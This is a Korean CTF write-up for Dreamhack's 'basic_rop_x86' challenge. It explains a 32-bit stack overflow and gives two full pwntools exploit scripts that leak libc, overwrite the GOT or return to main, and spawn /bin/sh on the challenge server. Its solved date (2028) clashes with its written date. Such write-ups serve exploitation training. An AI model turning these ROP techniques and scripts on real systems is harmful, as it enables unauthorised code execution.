


# [Dreamhack.io] basic_rop_x86 Write-Up

- **Platform:** Dreamhack
- **Date:** 2028-08-29 (solved) / 2026-08-31 (written)
- **Difficulty:** Easy ~ Medium
---

## 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 요약**
> - **목표:** `/bin/sh\x00` 실행
> - **제공 파일:** `Dockerfile`, `basic_rop_x86`, `basic_rop_x86.c`, `flag`, `libc.so.6`
> - **보호 기법:**
> ```
> Arch: i386-32-little
> RELRO:      Partial RELRO
> Stack:      No canary found
> NX:         NX enabled
> PIE:        No PIE (0x8048000)
> Stripped:   No
> ```

---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

```c
int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

- `read(0, buf, 0x400)`에서 스택 버퍼 오버 플로우가 발생한다.

### 취약점 원인 (Root Cause)
* **발생 원인:** 변수보다 많이 입력받아 생기는 스택 버퍼 오버플로우
* **파급 효과:** `RET` 주소 변경 가능. `Partial RELRO` 이므로 `GOT Overwrite` 가능

### buf2rbp 오프셋
- gdb를 통해 `buf`와 `sfp` 사이의 오프셋을 구해본다.

- `read()`의 인자를 스택에 넣는 과정을 보면 `buf`의 시작 주소는 `[ebp-0x44]`임을 알 수 있다.
- 따라서 0x48 바이트(buf + sfp)의 더미값을 넣으면 그 다음은 RET 주소가 될 것이다.

---

## 3. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ✏️ 페이로드 구성
> - 해결 방법 1: `read@got` 값을 `system` 함수 주소로 바꾼 뒤, `read("/bin/sh")` 실행
> - 해결 방법 2: `read@got` 값을 leak 한 뒤, 다시 메인으로 돌아와 `system("/bin/sh")` 실행

### 🔧 ROP Chain을 구성하기 위해 사용한 가젯
- `i386` 아키텍쳐의 경우 `cdecl` 함수 호출을 사용하는 경우, 오른쪽부터 왼쪽으로 전달인자를 스택에 push한다.
- 이후 호출된 함수는 스택에서 해당 값을 가져와 사용한다.
- 만약 `call` 명령을 통해 실행했다면 이후 스택을 정리하는 과정이 알아서 있었을 것이다.
- 하지만 우리는 가젯들로만 실행 흐름을 조작하는 것이므로, `rip`가 전달했던 인자 값이 아닌 가젯 명령어를 가리킬 수 있도록, pop 명령어로 이루어진 가젯이 필요하다.
- 이 가젯은 전달인자의 개수만큼 `pop` 명령어가 필요하고, 어느 레지스터에 들어가는지는 상관이 없다.

* 주어진 바이너리에 있는 가젯을 사용하였다.
* `pop reg; ret`: 전달인자가 하나인 경우 사용한다.
* `pop reg1; pop reg2; ret`: 전달인자가 두 개인 경우 사용한다.
* `pop reg1; pop reg2; pop reg3; ret`: 전달인자가 세 개인 경우 사용한다.

* ROP Chain을 구성하는 방식도 `x64` 아키텍쳐와 차이가 있다.
* `i386`의 함수 호출 규약에 따라 먼저 함수 호출 부분이 있고, 이후 전달인자를 넣어준다.
* 이후 전달인자 개수만큼의 pop-ret 가젯을 넣어준 뒤, 다음 명령어를 넣음으로써 `rip` 흐름을 조작한다.

### 💡 해결 방법 1 - One-pass Gadget 이용

* `main()` 함수 스택 프레임 상 `RET` 주소를 다음과 같이 바꾼다.
	1. `write(1, read@got, 4)`을 통해 `read()`의 실제 주소를 얻는다.
	2. `read(0, read@got, 12)`을 통해 `read()`의 GOT Table을 `system()` 주소로 덮어쓰고, `read@got + 0x4` 주소를 `"/bin/sh\x00"`으로 덮어쓴다. 
	3. `read("/bin/sh")`으로 `system("/bin/sh")`을 실행한다.

* `main` 함수가 리턴되어 위의 1번의 과정이 지나면 `read` 함수의 주소를 통해 라이브러리의 베이스 주소를 알게 된다.
* 이 라이브러리의 주소를 통해 `system()` 주소를 알게 되고, 2번 과정의 입력값으로 `[system 함수 주소] + ["/bin/sh\x00"]`을 전달한다.
### 💡 해결 방법 2 - Return to Main 기법 이용

* **ret2main 기법:** `main` 함수가 리턴되고, ROP Chain을 이용해 다시 `main()` 함수를 호출하는 것
1. 처음 `main()` 함수에서 리턴될 때, `write(1, read@got, 4)`을 통해 `read()`의 실제 주소를 얻는다.
2. 그 다음 chain으로, 다시 메인 함수 시작 위치로 `rip`를 이동시킴으로써 다시 바이너리를 실행한다.
3. 이후 `main()` 함수에서 리턴될 때, `system("/bin/sh")`을 호출한다.

* 1번 과정 이후에는 라이브러리의 베이스 주소를 알 수 있으므로, 이를 통해 `system()` 함수의 주소를 구한다.

---

## 4. Exploit Code (최종 익스플로잇 코드)

### 💡 One-pass Gadget을 이용한 Exploit Code

```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-h']

p = remote('host3.dreamhack.games', 15610)
# p = process('./basic_rop_x86')
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

r = ROP(e)

def slog(name, addr): return success(': '.join([name, hex(addr)]))

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop2_ret = r.find_gadget(['pop edi', 'pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

# write(1, read_got, 4)
payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1) + p32(read_got) + p32(4)

# read(0, read_got, 12)
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0) + p32(read_got) + p32(12)

# read("/bin/sh") == system("/bin/sh")
payload += p32(read_plt)
payload += p32(pop_ret)
payload += p32(read_got + 4)

p.send(payload)
p.recvuntil(b'A' * 0x40)

# Calculate libc base address
read_addr = u32(p.recvn(4))
libc_base = read_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']

slog('read addr', read_addr)
slog('libc base', libc_base)
slog('system addr', system_addr)

p.send(p32(system_addr) + b"/bin/sh\x00")

p.interactive()
```

### 💡 ret2main 기법을 이용한 Exploit Code

```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-h']

p = remote('host3.dreamhack.games', 14850)
# p = process('./basic_rop_x86')
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

r = ROP(e)

def slog(name, addr): return success(': '.join([name, hex(addr)]))

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']
main = e.symbols['main']

pop_ret = r.find_gadget(['pop ebp', 'ret'])[0]
pop2_ret = r.find_gadget(['pop edi', 'pop ebp', 'ret'])[0]
pop3_ret = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]

# Stage 1
payload = b'A' * 0x48
payload += p32(write_plt)
payload += p32(pop3_ret)
payload += p32(1) + p32(read_got) + p32(4)
payload += p32(main)

p.send(payload)
p.recvuntil(b'A' * 0x40)

# Calculate libc base address
read_addr = u32(p.recvn(4))
libc_base = read_addr - libc.symbols['read']
system_addr = libc_base + libc.symbols['system']
sh = libc_base + list(libc.search(b"/bin/sh"))[0]

slog('read addr', read_addr)
slog('libc base', libc_base)
slog('system addr', system_addr)

# Stage 2
payload = b'A' * 0x48
payload += p32(system_addr)
payload += p32(pop_ret)
payload += p32(sh)

p.send(payload)
p.recvuntil(b'A' * 0x40)

p.interactive()
```

- 아래는 ret2main을 이용해 원격에서 익스플로잇 코드를 돌린 결과이다.



---

## 5. 배운 점 && 오답 노트

- **새로 배운 점:**
	- `i386` 아키텍쳐에서의 ROP Chain: 함수 호출 규약 상 스택에 push하므로, `rip`의 흐름 제어를 위해 `pop-ret` 가젯이 필요함